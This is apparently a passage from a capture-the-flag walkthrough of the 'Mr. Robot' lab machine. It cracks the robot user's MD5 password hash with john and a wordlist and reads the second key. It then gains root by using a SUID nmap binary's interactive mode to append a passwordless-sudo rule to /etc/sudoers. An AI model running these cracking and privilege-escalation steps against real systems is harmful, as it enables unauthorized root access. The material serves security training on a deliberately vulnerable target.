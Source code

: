 There is a hash

```
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Use john to crack it

```
❯ john -w:/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5
Loaded 1 password hash (Raw-MD5 [MD5 128/128 XOP 4x2])
abcdefghijklmnopqrstuvwxyz (robot)
Session completed
```

`robot:abcdefghijklmnopqrstuvwxyz`

## Key 2
```
robot@linux:~$ cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959
```

## Root

```java
robot@linux:~$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:~$      
```

Go to Gtfobins

- [https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)


```java
robot@linux:~$ nmap --interactive  

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !echo 'ALL ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
waiting to reap child : No child processes
nmap> !sudo su
root@linux:/home/robot# cd
root@linux:~# id
uid=0(root) gid=0(root) groups=0(root)
root@linux:~# hostname -I
10.10.81.190
```
